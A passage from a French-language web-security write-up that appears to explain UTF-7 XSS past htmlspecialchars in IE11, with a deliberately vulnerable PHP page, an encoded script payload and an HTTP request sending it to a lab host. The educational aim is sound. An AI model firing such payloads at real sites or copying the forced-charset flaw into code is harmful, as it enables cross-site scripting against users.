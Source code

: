 ```php
<<!DOCTYPE html>
<html lang="fr">
  <head>
    <title>XSS in IE11</title>
  </head>
  <body>
    <p>
      <?php 
        header('Content-Type: text/html;charset=UTF-7');
        echo "xss encoding : " . htmlspecialchars($_SERVER["QUERY_STRING"], ENT_QUOTES, "UTF-8");
      ?>
    </p>       
  </body>
</html>
```

Deux limitations à cette exploitation :&#x20;

* Elle ne semble pas fonctionner lorsque la valeur du paramètre est récupérée depuis `$_GET['param']`
* L'attaquant doit trouver un moyen de forcer l'encodage de la page à "UTF-7" (codé en dur dans l'exemple : `header('Content-Type: text/html;charset=UTF-7');` )

Pour exploiter la vulnérabilité, l'attaque transforme tout d'abord son injection en "UTF-7". Ici `<script>alert(1)</script>` donne `+ADw-script+AD4-alert(1)+ADw-/script+AD4-` : &#x20;

![](<../../../.gitbook/assets/image (43) (1).png>)

Cette exploitation possède par contre l'avantage de contourner le filtre anti-XSS d'IE 11 :&#x20;

```http
GET /minipoc/htmlspecialchars/indexie.php?xss=+ADw-script+AD4-alert(1)+ADw-/script+AD4- HTTP/1.1
Accept: text/html, application/xhtml+xml, image/jxr, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko
Host: 192.168.56.101
Connection: close
```

